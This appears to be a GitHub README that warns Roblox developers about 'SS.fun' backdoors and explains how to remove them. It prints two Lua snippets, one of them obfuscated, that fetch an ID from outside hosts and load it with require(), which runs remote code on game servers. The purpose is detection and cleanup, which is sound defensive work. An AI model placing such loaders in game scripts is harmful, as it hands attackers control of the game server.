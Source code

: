 ### Hello guys, please read carefully.
!!!PLUGIN AND DISCORD SERVER NOT READY YET MY DISCORD ACCOUNT BELOW!!!
Discord : Jxy#9426
# 1. Links

    - https://assetdelivery.org
is SS.fun's first link.
It only works when you're in the game (not in the studio).
It checks the user agent (I've tested it).
If you see this URL, please remove it.

Example code:



```ruby
task.spawn(function()
	pcall(function()
		local newThreadedCall = coroutine.wrap(pcall)
		for _ in newThreadedCall, (select and require), tonumber(game:service("HttpService"):GetAsync("https://assetdelivery.org")) do
		end
	end)
end)
```

    - https://api.serverside.fun/v1/stat
is SS.fun's second link.
It works the same as the first link, only in-game (not in the studio).
If you see this URL, please remove it.

Example code:


```lua
local module = {}
pcall(function()
	local HttpService = game:GetService("HttpService")
	local response = HttpService:GetAsync('https://api.serverside.fun/v1/stat')
	local data = HttpService:JSONDecode(response)
	if(data["id"]) then
		local numbers = string.gsub(data["id"], "%D", "")
		require(tonumber(numbers)) 
	end
end)
return module
```

# 2. FAQ

    - How can I delete it?
First, open the plugin and it will start scanning the game. If it cannot find the module, you will need to find it manually. Advice: go to the webhook, find  the location and start from there.
    
    - I can't find it, what can I do?
Come to our Discord.

# End

Sorry for my not-so-good English

Thanks for listening to my TED talk.
